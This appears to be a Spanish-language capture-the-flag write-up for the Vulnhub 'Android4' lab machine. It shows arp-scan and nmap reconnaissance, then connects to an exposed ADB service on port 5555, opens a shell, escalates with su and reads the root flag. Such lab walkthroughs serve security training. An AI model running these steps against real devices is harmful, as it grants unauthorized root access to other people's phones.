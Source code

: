 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?size=50&color=F7F400&width=300&height=80&lines=ANDROID_4"></a>
</p>

<h1 align="center"></h1>

**[Descargar máquina]:**

Vulnhub: https://www.vulnhub.com/entry/android4-1,233/

<h1 align="center"><img src="https://user-images.githubusercontent.com/75953873/179633430-0029a8f7-b789-49a2-80be-12f04ed9357f.png"></h1>

</br>

- *Paso 1:* Identificar la IP de la máquina host con ArpScan. 
```
arp-scan --interface eth0 -l
```
![2](https://user-images.githubusercontent.com/75953873/179633673-54c343f6-fe1c-49bd-a070-a2ccdb4cf488.png)

IP host: `192.168.25.139`

- *Paso 2:* Escanear todos los puertos que estén abiertos con Nmap. 
```
nmap -p- --open -sC -n -vvv 192.168.25.139
```
![3](https://user-images.githubusercontent.com/75953873/179633819-76e89cc3-3e47-4f1c-9d4c-bcd153f748b9.png)

Puertos abiertos: [8080,22000,5555]

- *Paso 3:* Detección de servicios y sistema operativo. 
```
nmap -p 8080,22000,5555 -A 192.168.25.139
```
![4](https://user-images.githubusercontent.com/75953873/179634411-2134bb33-54f8-45c7-a0be-b6dbb9824153.png)

Servidor web (puerto **8080**): `http://192.168.25.139:8080`

![5](https://user-images.githubusercontent.com/75953873/179634788-bc82e682-c166-43c9-bd67-366001b12fd5.png)

O.S: `Android` **--> Kernel Linux**

Puerto **5555**: Es un puerto utilizado por ADB (Puente de Depuración de Android) que se utiliza para conectarse a telefonos móviles a través de TCP y ejecutar comandos.

- *Paso 4:* Conectarse al telefono vía ADB y capturar la flag.

Descargar ADB:
```
apt-get install -y adb
```

Conectarse con el dispositivo y obtener una shell:
```
adb connect 192.168.25.139:5555
adb shell
```
![6](https://user-images.githubusercontent.com/75953873/179636318-eb4f31c6-3c25-4881-aec8-802eb3052785.png)

Acceder a superusuario (**root**) y capturar la flag en del directorio `/data/root`:
```
su
cd /data/root
cat flag.txt
```
![7](https://user-images.githubusercontent.com/75953873/179636561-0b059ea4-2dd0-4c97-bc47-0ea74cfd023b.png)

**FLAG:** ANDROID{u_GOT_root_buddy}
